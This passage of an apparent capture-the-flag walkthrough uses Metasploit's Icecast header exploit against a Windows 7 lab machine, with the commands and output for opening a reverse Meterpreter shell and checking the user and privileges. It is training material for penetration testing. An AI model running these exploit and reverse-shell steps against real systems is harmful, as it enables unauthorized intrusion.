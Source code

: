 ```
msf6 exploit(windows/http/icecast_header) > setg RHOSTS 10.10.184.85
RHOSTS => 10.10.184.85
msf6 exploit(windows/http/icecast_header) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
```

First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

## Escalate
Enumerate the machine and find potential privilege escalation paths to gain Admin powers!

Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

Meterpreter

```
msf6 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.18.72.222:4444 
[*] Sending stage (175686 bytes) to 10.10.184.85
[*] Meterpreter session 1 opened (10.18.72.222:4444 -> 10.10.184.85:49244) at 2023-07-29 06:41:13 -0400

meterpreter > 
```

What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room.

Dark

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
